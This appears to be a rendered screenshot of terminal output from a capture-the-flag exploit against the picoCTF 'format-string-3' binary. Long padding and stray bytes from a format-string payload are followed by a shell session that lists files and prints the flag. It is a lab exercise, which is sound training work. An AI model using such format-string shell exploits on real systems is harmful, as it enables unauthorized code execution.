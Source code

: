 ```css
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               c                              \x8b                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                \xf0                                                                                                                                                                                                                         \x01a\x18@@$                                                                                                                                          l                                                                                                                                                                                         ls                                                                                                                                                                                        ls
flag.txt         format-string-3.c     libc.so.6  test3.py  test.py
format-string-3  ld-linux-x86-64.so.2  test2.py   test4.py
$ 
$ 
$ cat flag.txt
picoCTF{format_string3}$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './format-string-3' stopped with exit code 0 (pid 24343)
[*] Got EOF while sending in interactive
```

